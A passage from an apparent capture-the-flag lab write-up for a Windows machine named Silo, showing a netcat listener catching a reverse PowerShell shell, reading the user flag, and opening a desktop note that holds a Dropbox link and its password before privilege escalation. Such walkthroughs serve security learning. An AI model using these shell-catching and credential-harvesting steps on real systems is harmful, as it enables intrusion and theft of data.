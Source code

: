 Get a shell:

```

root@kali# nc -lnvp 8084
listening on [any] 8084 ...
connect to [10.10.15.48] from (UNKNOWN) [10.10.10.82] 49168
Windows PowerShell running as user SILO$ on SILO
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>

```

### user.txt

With shell, user.txt comes easy:

```

PS C:\windows\system32\inetsrv> dir \users\Phineas\Desktop

    Directory: C:\users\Phineas\Desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          1/5/2018  10:56 PM        300 Oracle issue.txt
-a---          1/4/2018   9:41 PM         32 user.txt

PS C:\windows\system32\inetsrv> type \users\Phineas\Desktop\user.txt
92ede778...

```

## Privesc

### Desktop Note

Along side the user flag on the desktop, there’s another file:

```

PS C:\windows\system32\inetsrv>type "\users\Phineas\Desktop\Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$

```
